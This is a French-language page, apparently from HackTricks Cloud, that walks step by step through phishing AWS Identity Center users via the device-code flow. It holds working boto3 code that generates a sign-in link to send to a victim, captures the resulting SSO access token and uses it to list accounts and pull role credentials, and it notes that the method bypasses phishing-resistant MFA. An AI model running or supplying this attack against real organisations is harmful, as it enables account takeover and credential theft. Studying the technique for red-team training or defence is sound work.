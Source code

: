# AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Phishing de code de dispositif AWS

Initialement proposé dans [**cet article de blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), il est possible d'envoyer un **lien** à un utilisateur utilisant AWS SSO qui, si le **utilisateur accepte**, permettra à l'attaquant d'obtenir un **jeton pour usurper l'identité de l'utilisateur** et accéder à tous les rôles auxquels l'utilisateur peut accéder dans le **Centre d'identité**.

Pour réaliser cette attaque, les prérequis sont :

* La victime doit utiliser le **Centre d'identité**
* L'attaquant doit connaître le **sous-domaine** utilisé par la victime `<victimsub>.awsapps.com/start`

Avec juste les informations précédentes, l'**attaquant pourra envoyer un lien à l'utilisateur** qui, s'il est **accepté**, accordera à l'**attaquant l'accès au compte** utilisateur AWS.

### Attaque

1. **Trouver le sous-domaine**

La première étape de l'attaquant est de découvrir le sous-domaine que l'entreprise de la victime utilise dans leur Centre d'identité. Cela peut être fait via **OSINT** ou **devinette + BF** car la plupart des entreprises utiliseront leur nom ou une variation de leur nom ici.

Avec cette info, il est possible d'obtenir la région où le Centre d'identité a été configuré :
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Générez le lien pour la victime & Envoyez-le**

Exécutez le code suivant pour générer un lien de connexion AWS SSO afin que la victime puisse s'authentifier.\
Pour la démonstration, exécutez ce code dans une console python et ne la quittez pas car vous aurez besoin de certains objets pour obtenir le token :
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Envoyez le lien généré à la victime en utilisant vos incroyables compétences en ingénierie sociale !

3. **Attendez que la victime l'accepte**

Si la victime était **déjà connectée à AWS**, elle n'aura qu'à accepter l'octroi des permissions, si elle ne l'était pas, elle devra **se connecter puis accepter l'octroi des permissions**.\
Voici à quoi ressemble l'invite de nos jours :

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Obtenez le jeton d'accès SSO**

Si la victime a accepté l'invite, exécutez ce code pour **générer un jeton SSO en usurpant l'utilisateur** :
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Le jeton d'accès SSO est **valide pendant 8h**.

5. **Imiter l'utilisateur**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing le MFA impénétrable

C'est amusant de savoir que l'attaque précédente **fonctionne même si un "MFA impénétrable" (webAuth) est utilisé**. Cela est dû au fait que le **flux de travail précédent ne quitte jamais le domaine OAuth utilisé**. Contrairement à d'autres attaques de phishing où l'utilisateur doit supplanter le domaine de connexion, dans le cas où le flux de code de dispositif est préparé, un **code est connu par un dispositif** et l'utilisateur peut se connecter même sur une machine différente. Si le prompt est accepté, le dispositif, simplement en **connaissant le code initial**, sera capable de **récupérer les identifiants** pour l'utilisateur.

Pour plus d'infos à ce sujet, [**consultez ce post**](https://mjg59.dreamwidth.org/62175.html).

### Outils Automatiques

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Références

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
